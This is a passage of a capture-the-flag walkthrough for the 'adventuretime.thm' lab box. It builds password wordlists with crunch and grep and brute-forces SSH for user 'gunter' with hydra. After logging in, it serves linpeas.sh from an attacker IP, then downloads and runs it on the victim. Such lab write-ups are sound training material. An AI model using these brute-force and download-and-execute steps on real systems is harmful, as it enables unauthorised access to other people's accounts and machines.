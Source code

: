 * This file gives us a target user - 'gunter' and a possible passphrase "The Ice King s????"

* As we do not know the last 4 characters of this password, we can generate a wordlist using ```crunch``` and leverage ```hydra``` for bruteforce:

  ```sh
  # we know the password format is "The Ice King s????"
  # where '?' represents unknown characters

  # we know total length of password is fixed at - 18
  # and we will use crunch for custom charset

  crunch 18 18 -t "The Ice King s@@@@" -o gunterpwd.lst
  # where @ is for any lowercase character
  # this generates a huge wordlist - 26^4

  hydra -l gunter -P gunterpwd.lst ssh://adventuretime.thm
  ```

* An alternative solution is to consider only legit words; following the trend with previous passwords in this box, we can bet on a 5-word lowercase English word starting with the letter 's':

  ```sh
  grep '^s.\{4\}$' /usr/share/dict/words > s-words.txt
  # fetch all 5-letter words
  # starting with lowercase 's'
  # from inbuilt word dictionary, mainly useful for lowercase

  # then we can concatenate it with our known starting string
  # as this one is a small wordlist, we can use a horrible one-liner

  for word in $(cat s-words.txt); do echo "The Ice King $word" >> gunterpwd.lst; done

  hydra -l gunter -P gunterpwd.lst ssh://adventuretime.thm
  ```

* Using either of these methods, we get the password "The Ice King sucks" for 'gunter':

  ```sh
  ssh gunter@adventuretime.thm

  ls -la

  cat flag4

  # we can start enumeration like previously done

  find / -type f -user gunter 2>/dev/null
  
  # we can also enumerate using linpeas

  # on attacker machine
  python3 -m http.server 8000

  # in victim ssh
  cd /tmp

  wget http://10.14.60.78:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```
